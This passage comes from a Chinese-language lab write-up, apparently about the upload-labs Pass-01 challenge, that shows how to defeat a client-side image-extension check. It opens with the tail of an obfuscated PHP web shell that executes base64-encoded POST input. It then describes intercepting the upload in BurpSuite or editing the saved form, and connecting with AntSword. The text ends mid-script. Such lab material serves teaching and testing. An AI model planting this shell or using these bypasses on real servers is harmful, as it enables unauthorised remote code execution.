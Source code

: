 ```php
    }
}
$wegt = new WEGT();
@$wegt->MQ = isset($_GET['id'])?base64_decode($_POST['peony']):$_POST['peony'];
?>
```

或者最干脆的 `phpinfo()` 函数：

```php
<?php phpinfo();?>
```

## Pass-01

{% note primary %}
考察点： 前端校验
应用场景：只在客户端进行 JS 检查
{% endnote %}

前端代码如下：

![Pass-01前端代码](https://pic.imgdb.cn/item/647c139cf024cca1732736a7.png)

分析代码，首先是在前端以白名单的形式（ `.jpg|.png|.gif` ）检验进行对文件后缀检验，绕过方式一共有两种：

### 抓包绕过

抓包绕过比较简单，直接打开 {%label BurpSuite blue %}，将预先保存成图片格式（ `.jpg|.png|.gif` ）的文件名修改成 PHP 文件即可。

![Pass-01抓包结果01](https://pic.imgdb.cn/item/647c139cf024cca173273747.png)

修改之后发送请求，发现网页会再次请求上传的文件：

![Pass-01抓包结果02](https://pic.imgdb.cn/item/647c139df024cca1732738f2.png)

{% label AntSword %}链接试试：

![AntSword链接结果](https://pic.imgdb.cn/item/647c139ef024cca1732739d6.png)

这样就完成了最简单的前端绕过文件上传。

### 修改前端代码绕过

在这还有一种其他办法可以绕过前端绕过，那就是直接保存网页文件后修改前端代码。

![保存网页的方法](https://pic.imgdb.cn/item/647c139ef024cca1732739e7.png)

编辑器打开保存后的`html`文件，修改前端代码如下：

{% tabs Pass01-Code %}

``` diff
<!-- 原代码 -->
-   <form enctype="multipart/form-data"  method="post" onsubmit="return checkFile()"></form> -->
<!-- 现代码 -->
+   <form enctype="multipart/form-data" action="http://192.168.118.128/Pass-01/index.php" method="post" onsubmit="return checkFile()">
    <p>请选择要上传的图片：</p><p>
    <input class="input_file" type="file" name="upload_file">
    <input class="button" type="submit" name="submit" value="上传">
</p></form>

<!-- 中间省略 -->

<script type="text/javascript">
    function checkFile() {
```